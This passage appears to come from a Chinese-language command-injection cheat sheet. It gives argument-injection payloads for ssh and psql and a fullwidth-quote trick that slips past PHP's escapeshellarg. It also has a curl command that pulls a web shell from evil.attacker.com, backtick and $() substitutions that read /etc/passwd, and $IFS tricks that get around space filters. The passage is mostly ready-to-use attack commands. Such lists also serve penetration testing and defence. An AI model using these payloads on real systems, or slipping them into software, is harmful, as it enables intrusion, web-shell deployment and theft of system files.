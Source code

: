 * SSH

    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql

    ```ps1
    psql -o'|id>/tmp/foo'
    ```

参数注入可以通过 [worstfit](https://blog.orange.tw/posts/2025-01-worstfit-unveiling-hidden-transformers-in-windows-ansi/) 技术滥用。

在以下示例中，负载 `＂ --use-askpass=calc ＂` 使用的是 **全角双引号**（U+FF02），而不是 **普通双引号**（U+0022）

```php
$url = "https://example.tld/" . $_GET['path'] . ".txt";
system("wget.exe -q " . escapeshellarg($url));
```

有时，直接从注入执行命令可能不可行，但您可能能够将流程重定向到特定文件，从而部署一个 Web shell。

* curl

    ```ps1
    # -o, --output <file>        写入文件而不是标准输出
    curl http://evil.attacker.com/ -o webshell.php
    ```

### 命令内部

* 使用反引号进行命令注入。

  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```

* 使用替换进行命令注入

  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```

## 过滤器绕过

### 无空格绕过

* `$IFS` 是一个特殊的 shell 变量，称为内部字段分隔符。在许多 shell 中，默认情况下，它包含空白字符（空格、制表符、换行符）。在命令中使用时，shell 将 `$IFS` 解释为空格。`$IFS` 不直接作为 `ls`、`wget` 等命令的分隔符工作；使用 `${IFS}` 而不是它。

  ```powershell
  cat${IFS}/etc/passwd
  ls${IFS}-la
  ```

